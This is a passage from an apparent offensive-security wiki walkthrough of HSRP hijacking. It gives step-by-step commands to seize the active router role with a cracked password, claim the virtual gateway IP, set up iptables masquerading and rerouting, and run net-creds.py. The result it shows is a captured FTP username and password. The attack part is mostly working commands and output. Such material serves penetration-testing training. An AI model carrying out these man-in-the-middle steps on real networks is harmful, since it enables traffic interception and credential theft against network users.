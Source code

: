 Select the router with an address of **10.10.100.100** and a priority of **200**. As the **Secret** parameter, **enter the cracked password** from the HSRP domain, generate a Gratuitous ARP and select the **Get IP** option.

<figure><img src="../../.gitbook/assets/image%20(192).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image%20(237).png" alt=""><figcaption></figcaption></figure>

**As we can see, the Active router is now our attacking system. The priority value is 255.**

**After injection we need to create a secondary IP address on our network interface with the value of the virtual IP address in the HSRP domain. You should also specify 24-bit mask. In this way, legitimate traffic will be looped back to us, because the virtual IP address used in the HSRP domain is the default gateway address for hosts.**

```
~$ sudo ifconfig eth0:1 10.10.100.254 netmask 255.255.255.0
```

**We set up the well-known Source NAT (masquerading) to intercept all traffic:**

```
~$ sudo iptables -t nat -A POSTROUTING -o eth0 -j MASQUERADE
```

**We remove the default route on our machine and write a new one which will go through the former Active router (its address is 10.10.100.100). Even though we have hijacked the active role from the router, it will still be able to route traffic.**

```
~$ sudo route del default
~$ sudo route add -net 0.0.0.0 netmask 0.0.0.0 gw 10.10.100.100
```

**Now we are the “man in the middle”. Let’s run** [**net-creds.py**](https://github.com/DanMcInerney/net-creds)**:**

```
~$ sudo python2 net-creds.py -i eth0
```

After running the utility, I will reproduce an attempt to authenticate to the FTP server at 172.16.100.140:

```
~$ ftp 172.16.100.140
```

<figure><img src="../../.gitbook/assets/image%20(179).png" alt=""><figcaption></figcaption></figure>

As a result, we get creeds from the FTP server: **insomnia:betrayal**

This is how you can attack the HSRP domain and intercept traffic. Basically, everything is similar to GLBP.

<details><summary>📝<a href="https://www.twitch.tv/hacktricks_live/schedule"> <strong></strong> </a><mark style="color:blue;"><strong>Breached Write Content</strong></mark><strong> Wednesdays</strong></summary></details>
